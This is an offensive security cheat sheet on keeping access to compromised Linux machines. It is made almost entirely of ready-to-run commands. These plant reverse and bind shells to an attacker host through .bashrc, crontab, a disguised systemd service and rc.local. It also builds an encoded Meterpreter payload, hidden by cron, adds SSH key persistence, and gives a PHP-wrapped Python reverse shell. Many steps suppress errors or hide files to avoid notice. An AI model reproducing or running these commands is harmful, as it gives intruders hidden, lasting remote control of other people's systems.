 # linux persistance

anytime you have a remote shell, remember to background it and run *stty raw -echo* so the terminal will not echo special character and pass them through the shell (when you type *fg*, it will not echo to screen). You can also use *stty -a* on the attack machine to see your rows and columns and set them to the same thing on the remote box with *stty rows* and *stty cols* respectively

## tools

[linper](https://github.com/montysecurity/linper)

## bashrc

- executed everytime bash is initialized for the given user

`echo "bash -c 'bash -i > /dev/tcp/RHOST/RPORT 2>&1 0>&1' 2> /dev/null 1>&2 & sleep .0001" >> ~/.bashrc`

## crontab

`crontab -l > /tmp/tmp.cgL8qKGk4U && echo "* * * * * bash -c 'bash -i > /dev/tcp/RHOST/RPORT 2>&1 0>&1'" >> /tmp/tmp.cgL8qKGk4U; crontab /tmp/tmp.cgL8qKGk4U && rm /tmp/tmp.cgL8qKGk4U`

## systemctl

```
echo "bash -c 'bash -i > /dev/tcp/RHOST/RPORT 2>&1 0>&1'" >> /etc/systemd/system/Tb8lKOKxGP.sh

if test -f /etc/systemd/system/M8JmWQM9fr.service;
then
	echo > /dev/null
else
	touch /etc/systemd/system/M8JmWQM9fr.service
	echo "[Service]" >> /etc/systemd/system/M8JmWQM9fr.service
	echo "Type=oneshot" >> /etc/systemd/system/M8JmWQM9fr.service
	echo "ExecStartPre=/usr/bin/sleep 60" >> /etc/systemd/system/M8JmWQM9fr.service
	echo "ExecStart=/bin/bash /etc/systemd/system/Tb8lKOKxGP.sh" >> /etc/systemd/system/M8JmWQM9fr.service
	echo "ExecStartPost=/usr/bin/sleep infinity" >> /etc/systemd/system/M8JmWQM9fr.service
	echo "[Install]" >> /etc/systemd/system/M8JmWQM9fr.service
	echo "WantedBy=multi-user.target" >> /etc/systemd/system/M8JmWQM9fr.service
	chmod 644 /etc/systemd/system/M8JmWQM9fr.service
	systemctl start M8JmWQM9fr.service 2> /dev/null & sleep .0001
	systemctl enable M8JmWQM9fr.service 2> /dev/null & sleep .0001
fi
```

## directories
everything in /etc/init and /etc/init.d/ is ran at startup

/etc/rc.local is a pre-init file that will also work on BSD and Linux, the file has to start with "/bin/bash -e" and end with "exit 0"

## netcat and bashrc
### reverse shell
Put reverse shell in targets bashrc and despite success or fail, it returns no error to screen and gives the user their bash shell upon initilization
	
	On Target Box
		echo "nc attackBox attackPort -e /bin/bash 2> /dev/null & sleep .0001" > ~/.bashrc
	On Attack Box
		nc -lnvp attackPort

### bind shell
Same idea as above, only it's a bind shell, not a reverse shell

	On Target Box
		echo "nc -lnvp attackPort -e /bin/bash 2> /dev/null & sleep .0001" > ~/.bashrc
	On Attack Box
		nc attackBox attackPort

## bash and cron
The less dependencies the better. Since Linux treats socket connections as files, you can redirect the bash terminal's interactive capabilities to a *file* that is really just a socket connection
	
	On Target Box
		echo "echo 'bash -i >& /dev/tcp/attackBox/attackPort 0>&1 | bash'" > /var/tmp/.cron.sh && chmod +x /var/tmp/.cron.sh && echo "* * * * * cd /var/tmp && ./.cron.sh" > cronjobtmp.sh && crontab cronjobtmp.sh && rm cronjobtmp.sh
	On Attack Box
		nc -lnvp attackPort

## metasploit and cron
If you prefer to use msfconsole to make post exploitation a bit easier, below is a one-liner for creating the payload and handler

	On Attack Box
		sudo service postgresql restart && msfvenom -p linux/x86/meterpreter/reverse_tcp -f elf -e x86/shikata_ga_nai -i 5 LHOST=attackBox LPORT=attackPort -o mal.elf && msfconsole -x "use exploit/multi/handler; set payload linux/x86/meterpreter/reverse_tcp; set LHOST attackBox; set LPORT attackPort; exploit"

	On Target Box
		nc -lnvp $port > /home/.mal.elf && chmod +x /home/.mal.elf
	
	On Attack Box
		nc $target $port < mal.elf

	On Target Box
		echo "* * * * * cd /home/ && ./.mal.elf" > .cron && crontab .cron && shred .cron; rm .cron

## metasploit and ssh
You need to already have a meterpreter session to follow along
	
	In Meterpreter
		use post/linux/manage/sshkey_persistence
		set fields
		run
		
	On Attack Box
		chmod 600 $ssh_key.txt (created by module)
		ssh -i $ssh_key.txt user@target

## php and python
If you have write access to a php file on the target and the target has python installed, you can use the following for a reverse shell

	In PHP file
		<?php system('python -c \'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.56.12",5555));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);\''); ?>
	On Attack Box
		nc -lnvp 5555

Suggest stacking persistence, as a wise man once said
> Two is one, one is none - Mubix

